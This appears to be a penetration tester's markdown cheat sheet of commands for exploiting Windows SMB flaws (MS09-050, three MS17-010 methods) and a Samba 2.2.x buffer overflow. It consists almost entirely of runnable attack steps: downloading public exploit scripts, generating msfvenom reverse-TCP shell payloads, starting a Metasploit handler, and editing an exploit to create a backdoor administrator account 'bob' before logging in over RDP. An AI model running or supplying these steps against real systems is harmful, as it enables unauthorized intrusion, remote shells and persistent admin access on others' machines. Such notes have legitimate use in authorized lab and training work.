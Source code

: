 #### MS09-50
```bash - kali
wget https://raw.githubusercontent.com/ohnozzy/Exploit/master/MS09_050.py
```

```python - kal
pip2.7 install pysmb
```

```bash - kali
msfvenom -p windows/shell/reverse_tcp LHOST=$KALI LPORT=443 EXITFUNC=thread -f c
```

---
1 - Liner
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload windows/shell/reverse_tcp;set EXITFUNC thread;set LHOST $Kali;set LPORT 443;run;"
```

---

```bash - kali
sudo msfdb run
```

```bash - kali
use exploit/multi/handler
```

```bash - kali
set payload windows/shell/reverse_tcp
```

```bash - kali
set EXITFUNC thread
```

```bash - kali
run
```

```bash - kali
pip install pysmb -t .
```

```bash - kali
python MS09_050.py $TARGET
```

```bash - kali
python3 ms09-050.py $TARGET
```

#### MS17-010 method 1

https://medium.com/@simonsulyma/hack-the-box-legacy-penetration-testing-without-metasploit-44b628fe870f

```bash - kali
git clone https://github.com/helviojunior/MS17-010 && cd MS17-010/ && python checker.py $TARGET
```

```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f exe > ms17–010.exe
```

![[rlwrap]]

```bash - kali
python send_and_execute.py $TARGET ms17–010.exe
```

#### MS17-010 method 2 (RDP)

```bash - kali
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
```

```bash - kali
searchsploit -m 42315
```

Edit 42315, replacing the block of code from 916 - 920 with the following:

```python - kali
	print('Sending exploit')
	service_exec(conn, r"cmd /c net user bob pass /add")
	service_exec(conn, r"cmd /c net localgroup administrators bob /add")
```

```bash - kali
python 42315.py $TARGET
```

```bash - kali
rdesktop -a 16 -z $TARGET -u bob -p pass
```

#### MS17-010 method 3
```bash - kali
searchsploit -m 42031
```

```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f raw EXITFUNC=thread -o exploit.bin
```

![[rlwrap]]

```bash - kali
python 42031.py $TARGET exploit.bin
```

#### Samba 2.2.x - Remote Buffer Overflow
```bash - kali
searchsploit -m 7
```

```bash - kali
chmod +x 7.pl
```

```bash - kali
./7.pl -t linx86 -H $KALI -h $TARGET
```


